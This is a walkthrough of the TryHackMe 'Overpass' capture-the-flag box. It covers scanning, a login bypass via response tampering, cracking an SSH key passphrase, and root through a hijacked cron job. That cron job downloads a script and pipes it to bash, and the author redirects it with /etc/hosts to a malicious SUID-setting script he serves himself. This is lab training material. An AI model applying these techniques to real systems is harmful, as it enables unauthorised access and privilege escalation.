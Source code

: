 Recently, I decided to give the Overpass box a try on TryHackMe since it was on my bucketlist for a while. This is my writeup for the particular box.
I started my testing with a simple nmap scan using:
`nmap -sC -sV -oN nmapscan.txt 10.10.38.213 -v`
Here is the output of the nmap scan:
```
# Nmap 7.91 scan initiated Fri Apr 16 10:45:44 2021 as: nmap -sC -sV -oN /root/CTF/TryHackMe/Overpass/nmapscan.txt -vvv 10.10.38.213
Nmap scan report for 10.10.38.213
Host is up, received reset ttl 60 (0.18s latency).
Scanned at 2021-04-16 10:45:45 EDT for 21s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 60 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 16 10:46:06 2021 -- 1 IP address (1 host up) scanned in 21.95 seconds
```
The box looked relatively simple with port 22 open for ssh and port 80 open for HTTP traffic. I decided to enumerate the website running on port 80. I left gobuster running on the background busting through all the sub-directories, while I manually looked around the website. For gobsuter I used the following command:
`gobuster dir -u http://10.10.38.213/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.html,.php,.js`
The output for the above command was:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.38.213/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php,js
[+] Timeout:                 10s
===============================================================
2021/04/16 10:45:21 Starting gobuster in directory enumeration mode
===============================================================

/downloads            (Status: 301) [Size: 0] [--> downloads/]

/img                  (Status: 301) [Size: 0] [--> img/]      

/index.html           (Status: 301) [Size: 0] [--> ./]        

/login.js             (Status: 200) [Size: 1779]              

/main.js              (Status: 200) [Size: 28]                

/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  

/admin                (Status: 301) [Size: 42] [--> /admin/]  

/admin.html           (Status: 200) [Size: 1525]              

/css                  (Status: 301) [Size: 0] [--> css/]      

/404.html             (Status: 200) [Size: 782]               

/cookie.js            (Status: 200) [Size: 1502]              

[!] Keyboard interrupt detected, terminating.
===============================================================
2021/04/16 10:46:14 Finished
===============================================================
```
What particularly seemed interesting from the gobsuter results were `login.js` and the admin login panel at `/admin`. Regardless, I went on to the website and took a look. It looked something like this:

![home page](images/home.png) 

The about page had some interesting names but nothing more than that: 

![about page](images/about.png)

I moved on to the downloads section which had some interesting stuff going on with it:

![download page](images/downloads.png)

The source code for the binary seemed awfully interesting but on manual review, nothing seemed off about it except the fact that it was using ROT47 in the name of military grade encryption LOL.
Since nothing seemed off uptil now, I went on to the more interesting parts namely the `login.js` file. On a closer inspection I found a vulnerable function.

![login.js](images/login.png)

Look at:
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
We can bypass the `if` check easily by using an HTTP proxy like `BurpSuite`. So, naturally I opened up BurpSuite and intercepted the request for the login on `/admin`, then I had to intercept the response by setting capture response to request to true.

![capture response](images/burp.png)

Now the fun begins, simply removing the `Incorrect Credentials` would bypass the check in the login function above. And that is exactly what I did.

![incorrect credentials](images/inc%20cred.png)
![no credential](images/no%20cred.png)

I refreshed the page after this and I had successfully bypassed the login. The new page presented me with an RSA private key.

![RSA Key](images/RSA.png)

I copied the key and saved it in a file. I ran `chmod 600` on the file to give it the proper permissions. Now I had to crack the passphrase for the key. I achieved this buy using `ssh2john` and `johntheripper`. First I ran `ssh2john RSA > johnrsa` and then I ran `john --wordlist=/usr/share/wordlists/rockyou.txt johnrsa`. The cracked passphrase turned out to be `james13`, and with this credential I was successfully able to connect to the box by running `ssh -i RSA james@10.10.38.213`. 

![user shell via ssh](images/user%20shell.png)

SSH gave me the initial user shell but the real fun began with privilege escalation. Manually looking around seemed redundant at first glance, so I grabbed a copy of `linpeas.sh` and served it to the box using a `python http.server`.

![http server](images/http.png) 
![linpeas](images/linpeas.png)

Upon running `linpeas.sh` a peculiar cron job came under my attention. 

![cron job](images/cron.png)

This job was running every mintue with root privileges, it was basically downloading a file present in the given path `overpass.thm/downloads/src/buildscript.sh` and piping it to bash. The cherry on top was the file used to resolve a particular ip to `overpass.thm` namely the `/etc/hosts` file was writeable by the user according to linpeas.sh.

![/etc/hosts](images/etc.png)

So I opened up the `hosts` file and made it so that `overpass.thm` resolved to my `tun0` ip (openvpn ip).

![edit](images/edit.png)

Now I went into the directory where I had the python http server running and recreated the path in the job namely `/downloads/src`. In there I made my own malicious `buildscript.sh` with the following code:
```
#!/bin/bash
chmod +s /bin/bash
```
The idea here was to set the SUID bit for /bin/bash as the `root` user so anybody with an user account could run `/bin/bash` with elevated root privileges. After a one minute wait, the job ran as expected and my malicious script was run by the `root` user. Finally, a simple `/bin/bash -p` gave me access to a root shell and I had officially rooted the box.

![root](images/root%20shell.png)
